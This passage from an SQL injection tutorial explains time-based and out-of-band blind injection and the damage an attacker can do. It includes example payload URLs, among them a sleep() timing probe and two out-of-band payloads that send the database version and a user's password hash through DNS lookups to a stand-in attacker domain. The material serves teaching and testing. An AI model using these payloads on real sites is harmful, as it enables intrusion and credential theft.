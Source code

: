 With this request, the page should load as usual if the database version is 5.X. But, it will behave differently (display an empty page, for example) if the version is different, indicating whether it it is vulnerable to an SQL injection.

#### Time-Based SQL Injection

In some cases, even though a vulnerable SQL query does not have any visible effect on the output of the page, it may still be possible to extract information from an underlying database.

Hackers determine this by instructing the database to wait (sleep) a stated amount of time before responding. If the page is not vulnerable, it will load quickly; if it is vulnerable it will take longer than usual to load. This enables hackers to extract data, even though there are no visible changes on the page. The SQL syntax can be similar to the one used in the Boolean-Based SQL Injection Vulnerability.

But to set a measurable sleep time, the 'true' function is changed to something that takes some time to execute, such as 'sleep(3)' which instructs the database to sleep for three seconds:

```
https://example.com/index.php?id=1+AND+IF(version()+LIKE+'5%',sleep(3),false)
```

If the page takes longer than usual to load it is safe to assume that the database version is 5.X.

#### Out-of-Band SQL Injection Vulnerability

Sometimes the only way an attacker can retrieve information from a database is to use out-of-band techniques. Usually these type of attacks involve sending the data directly from the database server to a machine that is controlled by the attacker. Attackers may use this method if an injection does not occur directly after supplied data is inserted, but at a later point in time.

Out-of-Band Example

```
https://example.com/index.php?id=1+AND+(SELECT+LOAD_FILE(concat('\\\\',(SELECT @@version),'example.com\\')))
```

```
https://www.example.com/index.php?query=declare @pass nvarchar(100);SELECT @pass=(SELECT TOP 1 password_hash FROM users);exec('xp_fileexist ''\\' + @pass + '.example.com\c$\boot.ini''')
```

In these requests, the target makes a DNS request to the attacker-owned domain, with the query result inside the sub domain. This means that an attacker does not need to see the result of the injection, but can wait until the database server sends a request instead.

### Impacts of SQL Injection Vulnerability

There are a number of things an attacker can do when exploiting an SQL injection on a vulnerable website. Usually, it depends on the privileges of the user the web application uses to connect to the database server. By exploiting an SQL injection vulnerability, an attacker can:

- Add, delete, edit or read content in the database
- Read source code from files on the database server
- Write files to the database server

It all depends on the capabilities of the attacker, but the exploitation of an SQL injection vulnerability can even lead to a complete takeover of the database and web server. You can learn more useful tips on how to test the impact of an SQL injection vulnerability on your website by referring to the [SQL injection cheat sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/).
